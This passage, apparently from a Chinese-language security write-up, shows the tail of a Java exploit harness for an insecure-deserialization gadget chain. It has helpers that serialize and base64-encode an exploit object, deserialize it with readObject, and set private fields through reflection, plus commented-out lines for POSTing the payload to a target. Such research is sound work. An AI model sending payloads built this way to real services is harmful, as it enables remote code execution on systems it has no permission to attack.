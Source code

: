 ```plain
        deserial(serial(exp));
        //doPOST(exp.toString().getBytes());
        //byte[] byt=new byte[fileInputStream.available()];
        //fileInputStream.read(byt);
        //doPOST(byt);
    }

    public static String serial(Object o) throws IOException, NoSuchFieldException {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        //Field writeReplaceMethod = ObjectStreamClass.class.getDeclaredField("writeReplaceMethod");
        //writeReplaceMethod.setAccessible(true);
        oos.writeObject(o);
        oos.close();

        String base64String = Base64.getEncoder().encodeToString(baos.toByteArray());
        return base64String;

    }

    public static void deserial(String data) throws Exception {
        byte[] base64decodedBytes = Base64.getDecoder().decode(data);
        ByteArrayInputStream bais = new ByteArrayInputStream(base64decodedBytes);
        ObjectInputStream ois = new ObjectInputStream(bais);
        ois.readObject();
        ois.close();
    }

    private static void Base64Encode(ByteArrayOutputStream bs){
        byte[] encode = Base64.getEncoder().encode(bs.toByteArray());
        String s = new String(encode);
        System.out.println(s);
        System.out.println(s.length());
    }
    private static void setFieldValue(Object obj, String field, Object arg) throws Exception{
        Field f = obj.getClass().getDeclaredField(field);
        f.setAccessible(true);
        f.set(obj, arg);
    }
}
```

还是一样的路径 这次是跟进到了

[![](assets/1701606625-e93f954ed98959e2c9368d3793682661.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231114153805-bf804bfa-82c0-1.png)
